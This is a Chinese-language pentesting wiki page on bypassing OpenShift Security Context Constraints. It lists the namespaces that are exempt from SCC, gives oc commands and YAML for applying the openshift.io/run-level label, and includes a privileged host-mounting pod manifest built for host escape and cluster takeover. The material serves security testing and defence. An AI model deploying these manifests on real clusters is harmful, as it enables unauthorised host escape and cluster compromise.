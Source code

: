 # Openshift - SCC bypass

**该页面的原始作者是** [**Guillaume**](https://www.linkedin.com/in/guillaume-chapela-ab4b9a196)

## 特权命名空间

默认情况下，SCC 不适用于以下项目：

- **default**
- **kube-system**
- **kube-public**
- **openshift-node**
- **openshift-infra**
- **openshift**

如果您在这些命名空间之一中部署 pod，将不会强制执行 SCC，从而允许部署特权 pod 或挂载主机文件系统。

## 命名空间标签

根据 RedHat 文档，有一种方法可以禁用 pod 上的 SCC 应用。您需要至少拥有以下权限之一：

- 在此命名空间中创建命名空间并创建 pod
- 编辑命名空间并在此命名空间中创建 pod
```bash
$ oc auth can-i create namespaces
yes

$ oc auth can-i patch namespaces
yes
```
特定标签 `openshift.io/run-level` 使用户能够绕过应用程序的 SCCs。根据 RedHat 文档，当使用此标签时，该命名空间内的所有 pod 都不执行任何 SCCs，有效地移除了任何限制。

<figure><img src="../../../images/Openshift-RunLevel4.png" alt=""><figcaption></figcaption></figure>

## 添加标签

要在您的命名空间中添加标签：
```bash
$ oc label ns MYNAMESPACE openshift.io/run-level=0
```
通过 YAML 文件创建带标签的命名空间：
```yaml
apiVersion: v1
kind: Namespace
metadata:
name: evil
labels:
openshift.io/run-level: 0
```
现在，在命名空间中创建的所有新 pod 不应具有任何 SCC

<pre class="language-bash"><code class="lang-bash"><strong>$ oc get pod -o yaml | grep 'openshift.io/scc'
</strong><strong>$
</strong></code></pre>

在没有 SCC 的情况下，您的 pod 定义没有任何限制。这意味着可以轻松创建恶意 pod 以逃逸到主机系统上。
```yaml
apiVersion: v1
kind: Pod
metadata:
name: evilpod
labels:
kubernetes.io/hostname: evilpod
spec:
hostNetwork: true #Bind pod network to the host network
hostPID: true #See host processes
hostIPC: true #Access host inter processes
containers:
- name: evil
image: MYIMAGE
imagePullPolicy: IfNotPresent
securityContext:
privileged: true
allowPrivilegeEscalation: true
resources:
limits:
memory: 200Mi
requests:
cpu: 30m
memory: 100Mi
volumeMounts:
- name: hostrootfs
mountPath: /mnt
volumes:
- name: hostrootfs
hostPath:
path:
```
现在，提升权限以访问主机系统并随后接管整个集群，获得“cluster-admin”权限变得更加容易。请查看以下页面中的 **Node-Post Exploitation** 部分：

{{#ref}}
../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md
{{#endref}}

### 自定义标签

此外，根据目标设置，某些自定义标签/注释可能与之前的攻击场景以相同方式使用。即使不是专门为此设计，标签也可以用于授予权限，限制或不限制特定资源。

如果您可以读取一些资源，请尝试查找自定义标签。以下是一些有趣的资源列表：

- Pod
- Deployment
- Namespace
- Service
- Route
```bash
$ oc get pod -o yaml | grep labels -A 5
$ oc get namespace -o yaml | grep labels -A 5
```
## 列出所有特权命名空间
```bash
$ oc get project -o yaml | grep 'run-level' -b5
```
## 高级利用

在 OpenShift 中，如前所示，拥有在带有 `openshift.io/run-level` 标签的命名空间中部署 pod 的权限可能导致对集群的直接接管。从集群设置的角度来看，这一功能 **无法被禁用**，因为它是 OpenShift 设计的固有部分。

然而，像 **Open Policy Agent GateKeeper** 这样的缓解措施可以防止用户设置此标签。

为了绕过 GateKeeper 的规则并设置此标签以执行集群接管，**攻击者需要识别替代方法。**

## 参考文献

- [https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html](https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html)
- [https://docs.openshift.com/container-platform/3.11/admin_guide/manage_scc.html](https://docs.openshift.com/container-platform/3.11/admin_guide/manage_scc.html)
- [https://github.com/open-policy-agent/gatekeeper](https://github.com/open-policy-agent/gatekeeper)
